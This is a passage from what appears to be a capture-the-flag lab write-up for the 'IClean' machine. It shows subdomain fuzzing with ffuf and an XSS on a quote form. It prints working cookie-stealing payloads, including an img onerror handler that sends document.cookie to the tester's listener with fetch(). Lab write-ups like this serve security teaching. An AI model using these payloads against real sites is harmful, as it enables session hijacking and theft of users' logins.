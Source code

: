 ```bash
$ ffuf -u http://capiclean.htb/ -H 'Host: FUZZ.capiclean.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 274
```

## Checking all user inputs

### Not logged in: XSS steal cookie

After testing out the inputs on `/login` and `/quote` for SQL Injection/XSS we see that using `<img src="http://10.10.14.137:4444";>` with a netcat listener we get a request:\
![quote page vulnerable to xss](images/IClean-quote-service-xss-vulnerable.png)

I tried a few different ways, `<script>` ones didn't seem to be working, and neither were these:
```html
<img src="http://10.10.14.137:4444?cookie="+btoa(document.cookie);>
<img src="http://10.10.14.137:4444?cookie="+encodeURIComponent(btoa(document.cookie));>
```

I finally got the cookie using:
```html
<img src=x onerror=fetch("http://10.10.14.137:4444?cookie="+btoa(document.cookie))>
```